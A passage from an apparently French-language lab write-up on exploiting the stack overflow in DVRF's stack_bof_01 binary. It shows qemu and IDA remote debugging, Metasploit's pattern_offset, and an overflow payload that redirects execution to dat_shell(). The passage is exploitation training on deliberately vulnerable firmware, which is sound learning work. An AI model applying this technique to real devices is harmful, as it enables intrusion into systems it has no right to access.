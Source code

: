 Pour débugger un process lancé par __qemu__, il faut lui spécifier un port de debug avec l'option __-g__. Je prendrais __12345__:

![image alt text](/images/dvrf-stack-overflow/2021-06-25_09-29.png)

Puis je dois récupérer un serveur de debug fournis par __IDA__. Il se trouve dans le dossier "C:\Program Files\IDA 7.0\dbgsrv" et il s'appelle __linux_server64__. Il me permettra de récupérer le contenu fourni par __qemu__ sur le port __12345__ et de le transférer à __IDA__:

```
$ ./linux_server64 -p 12345
IDA Linux 64-bit remote debug server(ST) v1.22. Hex-Rays (c) 2004-2017
Listening on 0.0.0.0:0...

```

Il suffit alors de spécifer à __IDA__ que je veux écouter sur le port __12345__ puis de lancer le debugging. J'obtiens alors mon seg fault !

Je vois que le __PC__ contient __Ag8A__. Il faut alors que je détermine l'offset auquel se trouve cette valeur dans la chaine de charactères que j'ai passé à __stack_bof_01__. J'utilise alors un autre outil fourni par metasploit:

```
$ ./pattern_offset.rb -l 300 -q Ag8A
[*] Exact match at offset 204
```

Il faut donc que j'écrive __204__ charactères aléatoires puis que j'écrive une addresse en little endien (celle de __dat_shell()__) de manière à jumper sur cette fonction car __PC__ pointera alors vers l'adresse de __dat_shell()__ (__0x00400950__):

```
AAAA..(204)..AAA [adresse de dat_shell]

AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`echo -e '\\x50\\x09\\x40\\x00'`
```

Bon en pratique, il ne faut pas tout à faire mettre __0x00400950__. En effet, au début de la fonction __dat_shell()__ se trouve 2 instructions qui peuvent poser problème:
